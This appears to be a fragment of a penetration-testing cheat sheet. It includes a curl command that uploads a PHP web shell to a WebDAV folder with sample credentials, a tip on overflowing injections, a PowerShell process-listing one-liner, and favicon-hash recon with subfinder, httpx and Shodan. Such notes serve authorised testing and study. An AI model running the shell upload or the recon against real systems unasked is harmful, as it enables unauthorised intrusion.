   ```
- `curl -T my-shell.php -u 'administrant:sleepless' http://muddy.ugc/webdav/`



## More stuff

- If you have problems with an injection, try to inject a longer string in order to cause an overflow
- List all running processes whose command line contains a specific keyword `Get-CimInstance Win32_Process | Where-Object { $_.CommandLine -like "*<keyword>*" } | Select-Object CommandLine | Format-List`

**Recon with favicons**
- `subfinder -d target.com | httpx -favicon -j | jq -r .favicon | grep -v null | sort -u`
  - Spring Boot > `116323821`
- Shodan: `org:target http.favicon.hash:116323821`
